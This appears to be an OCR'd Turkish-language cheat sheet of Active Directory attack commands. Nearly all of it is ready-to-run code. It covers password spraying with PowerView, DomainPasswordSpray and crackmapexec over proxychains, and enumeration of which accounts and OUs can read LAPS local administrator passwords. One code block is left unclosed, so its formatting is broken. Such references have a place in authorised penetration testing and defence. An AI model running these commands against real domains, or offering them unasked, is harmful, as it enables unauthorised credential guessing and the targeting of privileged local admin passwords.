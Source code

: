 #### Password Spraying:

##### PowerView Kullanarak:
```powershell
Get-DomainUser | select samaccountname > users.txt
Import-Module DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -UserList users.txt -Password 'P@$$W0rd!' -OutFile sprayed-creds.txt
```
veya:
```bash
proxychains crackmapexec smb 10.10.10.10 -d steins.local -u users.txt -p 'p@$$w0rd1' --continue-on-success
### LAPS Delegasyonu

#### Belirli Bir Bilgisayar İçin LAPS Şifresine Okuma Erişimi Olan Kullanıcıları/Grupları Bulma
```powershell
Get-NetComputer -ComputerName 'computer_name' -FullData | Select-Object -ExpandProperty distinguishedname | ForEach-Object { $_.substring($_.indexof('OU')) } | ForEach-Object { Get-ObjectAcl -ResolveGUIDs -DistinguishedName $_ } | Where-Object { ($_.ObjectType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty') } | ForEach-Object { Convert-NameToSid $_.IdentityReference } | Select-Object -ExpandProperty SID | Get-ADObject
```

#### LAPS Şifresini Okuma Erişimi Olan Tüm OU'lar İçin ACL'leri Bulma
```powershell
Get-NetOU -FullData | Get-ObjectAcl -ResolveGUIDs | Where-Object { ($_.ObjectType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty') } | ForEach-Object { $_ | Add-Member NoteProperty 'IdentitySID' (Convert-NameToSid $_.IdentityReference).SID; $_ }
```

#### LAPS Şifresine Erişimi Olan Kullanıcıları Listeleme
```powershell
$LAPSAdmins = Get-ADGroup 'GroupName' | Get-ADGroupMember -Recursive
$LAPSAdmins += Get-ADGroup 'AnotherGroupName' | Get-ADGroupMember -Recursive
$LAPSAdmins | Select Name, distinguishedName | Sort-Object Name -Unique | Format-Table -AutoSize
```

### LAPS Keşfi

#### Yerel Makinede LAPS Kurulu Olup Olmadığını Bulma
```powershell
Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'
Test-Path 'HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\NT\CurrentVersion\Winlogon\GPExtensions'
```

#### LAPS Niteliklerinin Var Olduğunu Kontrol Etme
```powershell
Get-AdObject 'CN=ms-mcs-admpwd,CN=Schema,CN=Configuration,DC=ELS,DC=LOCAL'
```

#### LAPS Adı İçeren GPO'ları Bulma
```powershell
Get-DomainGPO -Identity 'LAPS'
```
